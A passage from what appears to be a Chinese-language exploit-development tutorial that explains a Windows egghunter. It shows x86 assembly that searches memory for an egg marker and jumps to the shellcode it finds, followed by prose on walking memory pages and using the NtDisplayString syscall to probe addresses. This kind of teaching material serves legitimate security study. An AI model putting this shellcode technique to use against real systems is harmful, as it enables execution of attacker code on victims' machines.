 ```assembly
is_egg:
mov eax, 0x444e5750 // if the address was valid, move the egg into eax for comparison
mov edi, edx // set edi to the current address pointer in edx for use in the scasd instruction
scasd // compares value in eax to dword value addressed by edi (current address pointer)
// and sets EFLAGS register accordingly; after scasd comparison,
// EDI is automatically incremented by 4 if DF flag is 0 or decremented if flag is 1
jnz loop_inc_one // egg not found? jump back to loop_inc_one
scasd // first 4 bytes of egg found; compare the dword in edi to eax again
// (remember scasd automatically advanced by 4)
jnz loop_inc_one // only the first half of the egg was found; jump back to loop_inc_one

found:
jmp edi //egg found!; thanks to scasd, edi now points to shellcode
```

让我们从 loop_inc_page 开始详细介绍代码。首先，or 指令通过将 page_size – 1（或 4095）添加到 EDX 中的当前地址来提出要搜索的下一个内存页面，并将结果存储在 EDX 中。下一条指令将 EDX 的值加 1。这有效地将我们带到了我们要搜索的页面中的第一个地址。您可能想知道为什么我们没有将 4096 放入 EDX，而是将其分成两条指令。原因是因为我们需要维护两个独立的循环，一个循环遍历每个页面，另一个循环遍历有效页面的每个地址。

![1](part5/1.png)

随着每个地址的递增，我们调用 NtDisplayString 以查看它是否有效。在此之前，EDX 中的值必须保存到栈中，因为我们需要在系统调用之后返回该位置；否则它将被系统调用指令破坏。保存 EDX 后，我们将 NtDisplayString (43) 的系统调用号加载到 EAX 中。 如果您想查找各种 Windows 系统调用的编号，请查看此[资源](http://j00ru.vexillium.org/ntapi/)。
